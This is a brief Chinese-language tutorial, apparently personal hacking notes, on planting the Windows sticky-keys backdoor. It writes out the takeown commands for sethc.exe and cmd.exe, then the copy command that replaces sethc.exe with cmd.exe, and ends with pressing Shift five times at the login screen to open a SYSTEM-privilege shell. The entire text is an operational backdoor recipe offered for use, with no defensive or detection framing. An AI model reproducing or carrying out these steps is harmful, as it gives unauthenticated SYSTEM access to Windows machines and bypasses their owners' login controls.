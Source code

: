 开始制作后门：
1、首先将系统原本的粘滞键改名
-C:\windows\system32\sethc.exe更改名称
2、此时我们去查看粘滞键的运行目录时发现，即使是系统system都没有对该程序拥有权限
因此我们需要执行命令去修改该程序的所属权限：
==takeown /F C:\Windows\System32\sethc.exe /A==
==takeown /F C:\Windows\System32\cmd.exe /A==
#更改程序的所属权限之后，就可将sethc.exe重命名。
此时我们成功的拥有了sethc.exe的修改权限

3、在命令行执行命令：
copy C:\WINDOWS\system32\cmd.exe C:\windows\system32\sethc.exe

4、此时我们可以直接在用户登录界面按5下shift快捷键，成功弹出一个具有system权限的会话窗口
